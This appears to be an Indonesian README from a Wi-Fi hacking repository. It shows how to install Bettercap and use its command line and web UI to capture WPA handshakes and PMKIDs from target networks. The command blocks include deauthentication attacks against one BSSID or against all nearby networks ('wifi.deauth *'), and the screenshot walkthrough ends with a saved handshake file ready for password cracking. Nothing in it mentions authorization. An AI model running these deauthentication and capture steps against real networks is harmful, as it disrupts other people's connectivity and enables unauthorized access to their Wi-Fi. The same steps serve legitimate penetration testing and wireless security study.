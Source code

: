 # Bettercap

[Bettercap](https://www.bettercap.org/) adalah perangkat lunak kerangka kerja keamanan yang kuat, mudah diperluas, dan portabel, ditulis menggunakan bahasa `Go`. Perangkat ini dirancang sebagai alat terpadu yang mudah digunakan bagi peneliti keamanan, tim pengujian penetrasi (red team), dan spesialis reverse engineering. Fitur-fiturnya memungkinkan pengumpulan informasi serta pengujian dan eksploitasi keamanan pada jaringan Wi-Fi, perangkat Bluetooth Low Energy (BLE), perangkat Human Interface Device (HID) nirkabel, jaringan CAN-bus, serta jaringan IPv4 dan IPv6.

## Instalasi

Kali Linux:

1. Pake packet manager (`apt`):

```
sudo apt-get update
sudo apt-get install bettercap bettercap-dbgsym bettercap-caplets bettercap-ui
bettercap -version
```

2. Pake Go:

```
sudo apt-get update
sudo apt install golang git build-essential libpcap-dev libusb-1.0-0-dev libnetfilter-queue-dev
go install github.com/bettercap/bettercap/v2@latest
sudo mv ~/go/bin/bettercap /usr/local/bin/
bettercap -version
```

Untuk informasi lebih lengkapnya lagi bisa lihat disini: [https://www.bettercap.org/project/installation/](https://www.bettercap.org/project/installation/)

## Penggunaan

### 1. Mode Interaktif

```
sudo bettercap
```

> Kalo muncul output error kaya gini `No active interfaces found.`. Pake opsi `-iface [interface]`.

#### Capture Handshake

Single target:

```
set wifi.handshakes.file [output_file]
wifi.recon on
set ticker.commands "clear; wifi.show"
ticker on
ticker off
set wifi.assoc.skip *
wifi.deauth [bssid]
```

Semua target:

```
set wifi.handshakes.file [output_dir]
set wifi.handshakes.aggregate false
wifi.recon on
set ticker.commands "clear; wifi.show"
ticker on
ticker off
set wifi.assoc.skip *
wifi.deauth *
```

#### Capture PMKID

Single target:

```
set wifi.handshakes.file [output_file]
wifi.recon on
set ticker.commands "clear; wifi.show"
ticker on
ticker off
wifi.assoc *
```

Semua target:

```
set wifi.handshakes.file [output_dir]
set wifi.handshakes.aggregate false
wifi.recon on
set ticker.commands "clear; wifi.show"
ticker on
ticker off
wifi.assoc *
```

### 2. Opsi Caplet

```
sudo bettercap -caplet [file_caplet]
```

> Kalo muncul output error kaya gini `No active interfaces found.`. Pake opsi `-iface [interface]`.

Contoh file capletnya ada disini: [https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/caplet.cap](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/caplet.cap)

### 3. Mode WEB UI

```
sudo bettercap -eval "ui on"
```

1. Arahkan kursor ke link yang ada di bagian web ui starting on, yaitu `http://127.0.0.1:80`, terus klik kanan dan pilih `Open Link`.

   ![img 1](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%201.png)
2. Masukkan kredensial login:
   - Usermame: `user`
   - Password: `pass`

   ![img 2](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%202.png)
3. Klik ikon Wi-Fi:

   ![img 3](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%203.png)
4. Pilih interface yang ingin dipake dengan klik menu dropdown:


   ![img 4](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%204.png)
5. Lakukan scanning Wi-Fi dengan klik ikon play:

   ![img 5](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%205.png)
6. Di gambar ini ada beberapa bagian, antara lain:

   ![img 6](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%206.png)

   - `RSSI`: Kekuatan sinyal dari Access Point (AP) dalam satuan dBm.
   - `ESSID`: Nama jaringan Wi-Fi.
   - `BSSID`: Alamat MAC unik dari Access Point.
   - `Vendor`: Produsen perangkat Access Point berdasarkan BSSID.
   - `Encryption`: Jenis enkripsi yang digunakan oleh jaringan Wi-Fi.
   - `Ch`: Kanal (channel) yang digunakan oleh Access Point.
   - `Clients`: Jumlah perangkat klien yang saat ini terhubung ke AP tersebut.
   - `Sent`: Jumlah paket data yang dikirim dari perangkat ke AP.
   - `Recvd`: Jumlah paket data yang diterima dari AP oleh perangkat.
   - `Seent`: Menunjukkan jumlah paket yang terdeteksi (seen) dari klien atau AP yang dipantau.
8. Di sini, kita harus memilih BSSID target yang ingin diserang, lalu klik menu dropdownnya:

   ![img 7](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%207.png)
9. Di sini, kita dapat melakukan dua jenis serangan, antara lain:
   - Capture Handshake
   - Capture PMKID
  
   ![img 8](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%208.png)

   Untuk Capture Handshake, klik `Deauthenticate Client`. Untuk Capture PMKID, klik `Associate`. Dalam panduan ini, kita akan memilih `Capture Handshake`.
   
   > Catatan:
   >
   > - Capture Handshake: Memerlukan setidaknya 1 klien yang aktif.
   > - Capture PMKID: Tidak semua router mendukung PMKID.
10. Setelah klik `Deauthenticate Client`, tunggu sampe handshake berhasil capture. Handshake dianggap berhasil capture kalo muncul ikon `kunci merah` pada bagian `Encryption` dan notifikasi `Captured handshake for station...`:

    ![img 9](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%209.png)
    
11. Klik ikon Events:

    ![img 10](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%2010.png)
12. Klik salah satu dari ketiga item di bagian pesan:

    ![img 11](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%2011.png)
13. Dari gambar di bawah ini terlihat bahwa file handshake disimpan di: `/root/bettercap-wifi-handshakes.pcap`.

    ![img 12](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%2012.png)
